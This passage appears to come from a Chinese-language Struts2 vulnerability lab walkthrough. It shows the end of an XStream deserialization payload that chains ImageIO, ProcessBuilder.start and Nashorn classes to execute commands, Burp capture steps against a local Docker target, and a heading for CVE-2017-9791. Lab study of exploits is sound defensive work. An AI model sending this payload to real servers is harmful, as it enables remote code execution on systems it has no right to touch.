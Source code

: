 ```
                    &lt;/next&gt;
                  &lt;/iter&gt;
                  &lt;filter class="javax.imageio.ImageIO$ContainsFilter"&gt;
                    &lt;method&gt;
                      &lt;class&gt;java.lang.ProcessBuilder&lt;/class&gt;
                      &lt;name&gt;start&lt;/name&gt;
                      &lt;parameter-types/&gt;
                    &lt;/method&gt;
                    &lt;name&gt;foo&lt;/name&gt;
                  &lt;/filter&gt;
                  &lt;next class="string"&gt;foo&lt;/next&gt;
                &lt;/serviceIterator&gt;
                &lt;lock/&gt;
              &lt;/cipher&gt;
              &lt;input class="java.lang.ProcessBuilder$NullInputStream"/&gt;
              &lt;ibuffer&gt;&lt;/ibuffer&gt;
              &lt;done&gt;false&lt;/done&gt;
              &lt;ostart&gt;0&lt;/ostart&gt;
              &lt;ofinish&gt;0&lt;/ofinish&gt;
              &lt;closed&gt;false&lt;/closed&gt;
            &lt;/is&gt;
            &lt;consumed&gt;false&lt;/consumed&gt;
          &lt;/dataSource&gt;
          &lt;transferFlavors/&gt;
        &lt;/dataHandler&gt;
        &lt;dataLen&gt;0&lt;/dataLen&gt;
      &lt;/value&gt;
    &lt;/jdk.nashorn.internal.objects.NativeString&gt;
    &lt;jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/&gt;
  &lt;/entry&gt;
  &lt;entry&gt;
    &lt;jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/&gt;
    &lt;jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/&gt;
  &lt;/entry&gt;
&lt;/map&gt;

```

```
打开docker环境访问你IP地址的8080端口,通过burp抓取靶场数据包
http://192.168.139.136:8080/orders.xhtml

```

```
修改如下,虽然回显是失败但是成功上传了

```

#### Content-Type注入漏洞(CVE-2017-9791)
